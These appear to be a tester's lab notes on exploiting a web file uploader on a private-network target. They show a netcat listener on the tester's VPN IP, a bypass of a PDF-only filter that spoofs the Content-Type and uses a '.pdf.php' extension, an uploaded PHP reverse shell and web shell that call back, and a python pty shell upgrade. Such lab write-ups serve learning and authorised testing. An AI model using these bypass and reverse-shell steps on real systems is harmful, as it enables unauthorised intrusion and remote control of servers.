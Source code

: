 ![[Pasted image 20231218133512.png]]

File Up loader

## 3306/tcp open     mysql
## Weaponization

Prep nc listener
```
nc -nlvp 443
```

My VPN IP: `192.168.49.140`


Finding the best shell for the job
https://revshells.com (Pentest Monkey is usually best)

Check for php file upload restrictions
	Sorry, that format isn't allowed! Only PDF please.

Will try the other php formats and other bypasses in burp repeater 
https://book.hacktricks.xyz/pentesting-web/file-upload
Sniper intruder on single payload position for all proposed php alternatives and bypasses
![[Pasted image 20231218135618.png]]
Changed content type to: `Content-Type: application/pdf`

Uploads
![[Pasted image 20231218140221.png]]

Check
http://192.168.140.112/applications/uploads/revsh.php

No rev shell. Try other shells

PHP cmd works
![[Pasted image 20231218141124.png]]

This one loads the html code. Now to see if it sends data via tcpdump

```
tcpdump -i tun0
```

![[Pasted image 20231218141029.png]]

Searching for PHP reverse shells I find this payload creator before I tried meterpreter
https://github.com/TarlogicSecurity/Chankro

Open the page with the shell
http://192.168.140.112/applications/uploads/revs3.pdf.php

Great got a connection. Now to upgrade the shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

